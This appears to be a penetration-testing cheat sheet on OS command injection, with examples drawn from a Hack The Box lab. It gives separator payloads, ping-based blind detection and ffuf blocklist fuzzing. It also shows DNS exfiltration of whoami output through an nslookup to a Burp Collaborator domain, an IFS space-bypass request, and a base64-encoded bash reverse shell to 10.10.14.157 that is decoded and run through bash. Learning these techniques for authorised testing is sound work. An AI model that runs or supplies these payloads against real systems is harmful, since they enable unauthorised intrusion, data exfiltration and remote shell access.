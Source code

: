# Cmd Injection

## Where Would You Find Command Injection

* In the following places:
* Text boxes that take in input
* Hidden URLs that take input
* E.g. `/execute/command-name`
* Or through queries e.g. `/location?parameter=command`
* When using URLs, remember to URL encode the characters that aren’t accepted
* Hidden ports:
* Some frameworks open debug ports that take in arbitrary commands

### Overview

* Use command line symbols within the input to alter the executed command
* Pay close attention to functions within an application that tend to be performed by an OS command
* Two forms exist, blind command injection --> you do not see the returned output, and non-blind cmd injection --> the system command output gets returned back to you
* Ensure you use the proper system commands per the OS

```
cat vs type 
ping -c vs ping -n #ping -n causes an infinte ping loop in linux
ls vs dir
```

* Try to start with reading a world readable file&#x20;

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Non-Blind CMD Inj.

* At the most basic level:
* Use command line symbols within the input to alter the executed command
* Once you have identified a potential injection point, use command line symbols within the input to alter the executed command&#x20;

```
; | || & && > >>
```

<figure><img src="../.gitbook/assets/image (2) (1) (4).png" alt=""><figcaption></figcaption></figure>

* Once you have exploited non-blind cmd injection, escalate to a reverse shell.

### Blind CMD Injection

#### Identification

* ICMP and DNS are useful to determine blind cmd injection&#x20;

```
google.com; ping -c11 127.0.0.1 #server will hang for roughly 10 seconds
```

* Can also try to ping yourself, however many corporate environments have firewalls in place to stop this, so doesn't always mean blind cmd injection isn't taking place&#x20;
* Use `tcpdump` to capture the `icmp` echo requests.

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

* This proves blind cmd injection, escalate to reverse shell

### Burp Collaborator

* Launch Burp, and choose:

![](<../.gitbook/assets/image (1) (2) (1).png>)

```
Burp --> Burp Collaborator Client
Press --> "Copy to Clipboard" #to copy a randomly generated domain name
Execute your cmd injection
```

* Press `Poll Now` to see if the request came through&#x20;

<figure><img src="../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

* If the above worked, move down to Data Exfil section

### **Data Exfil via DNS and Burp Collaborator**&#x20;

* Once you have your Burp Collaborator Domain, try your command injection&#x20;

```
google.com; a=$(whoami|base32|tr -d =); nslookup $a.COLLAB_DOMAIN_NAME.com
```

* Press Poll now and you should have something returned like this:

```
O53XOLLEMF2GCCQ.323lijijf90304jklksjru43k23.oastify.com
```

* Then type the following in your local terminal&#x20;

```
echo -n O53XOLLEMF2GCCQ | wc -c
```

* If this fails as `Invalid Base32` add 1, or 2 equal signs at the end for padding

```
echo -n O53XOLLEMF2GCCQ= | base32 -d
#output:
www-data
```

### Bypassing Character Blocklist with ffuf

* If you see that some special characters are banned, create a burp request to the resource you want to test
* It should be a post request
* Identify the parameter that it is using to post the data to the server&#x20;

```
name=;ls
```

* Swap out the command injection attempt that is getting blocked in the burp request with:

```
name=FUZZ
```

* Save the burp request to your local machine in a file&#x20;

```
ffuf -request search.request --request-proto http -w /opt/Seclists/Fuzzing/special-chars.txt
```

* You usually will have to ignore the `&` character as many webservers will think you are going to pass in another parameter
* Now that you have your results back you must filter out the most common side that you see being returned&#x20;
* `-fs 724`
* Can comma seperate filter size i.e. you see alot of 724 and 726 returned saying that character you posted is blocked&#x20;
* `-fs 724,726`
* Ensure you also `-mc all` or match code to see all the different http status codes returned, look for 5XX errors&#x20;
* If you see errors on:

```
{ == SSTI
; | & == cmd injection
' " == SQLI
```

### IFS Bypass No Spaces CmdInjection

* whitespace bypass&#x20;

```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=Username%20can%27t%20contain%20whitespaces!
Cookie: JSESSIONID=DB9090F5B00F1D06EBACD0FEB329530C
Upgrade-Insecure-Requests: 1

host=cozyhosting&username=;ping${IFS}-c4${IFS}10.10.14.157;#
```

* can see above that the username (our injection point) cannot contain spaces, we can use `{IFS}`to bypass this restriction and get cmd injection
* Gaining a reverse shell, encode your payload and have it decode and execute to avoid special character issues&#x20;

```
echo "bash -i >& /dev/tcp/10.10.14.157/1234 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvMTIzNCAwPiYxCg==
// use this 
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvMTIzNCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
